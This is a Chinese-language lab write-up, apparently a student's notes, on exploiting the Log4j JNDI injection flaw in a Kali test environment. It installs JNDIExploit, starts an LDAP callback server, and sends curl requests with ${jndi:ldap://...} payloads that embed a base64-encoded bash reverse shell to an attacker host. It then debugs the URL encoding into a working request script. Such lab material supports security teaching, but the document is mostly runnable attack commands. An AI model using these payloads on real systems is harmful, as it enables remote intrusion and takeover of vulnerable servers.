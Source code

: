 [![reverse_shell_test](https://asciinema.org/a/x3PyHDW2CRkH9MxDZivEgUsS7.svg)](https://asciinema.org/a/x3PyHDW2CRkH9MxDZivEgUsS7)

3. 反弹 Shell 实战

- `kaliattacker`

安装 `JNDI注入` 利用工具 [JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1)

解压后检查校验和无误：
  
```bash
└─$ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
```

借助 `JNDIExploit` 工具，反弹 Shell：

```bash
# 开启JNDI服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.182.129
# 尝试反弹 Shell

curl http://192.168.182.129:43381/hello -d 'payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}' 
# 发送 包含访问恶意命令（ Base64 编码的 反弹Shell 命令）地址的 HTTP 请求
``` 

![method_not_allowed_1](../img/lihan3238_doc/method_not_allowed_1.png)

注意到这里又出现了 POST 请求不允许的情况，根据昨天的经验，使用 GET 请求替代：

```bash
curl "http://192.168.4.129:43381/hello?payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}"
```

发现又无效，原因是 URL 编码问题：

> When making a request to an API, the parameters included in the URL request may contain characters that have special meaning for the web server. **URL encoding allows the browser or web server to safely transfer this data** , as it converts all special characters and spaces into a format that web browsers can understand.
- [What is URL encoding? - LocationIQ](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://locationiq.com/glossary/url-encoding&ved=2ahUKEwj_vtnz6JyHAxVvklYBHRjWBM8QFnoECBcQAw&usg=AOvVaw16s5ejvi6YAfxkTdWNT8zo)

同时，注意到改为 GET 请求后，Bash 命令的 Base64 编码也需要修改，摸索了一下，最终成功写出 Bash 命令

```bash
# 反弹 Shell 命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1"
# Base64 编码
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
# 拼接 URL
TARGET_URL="http://192.168.182.129:43381/hello" 
FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" 
# URL 编码
URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` 
# 发送 GET 请求
curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# curl 的 GET 请求
```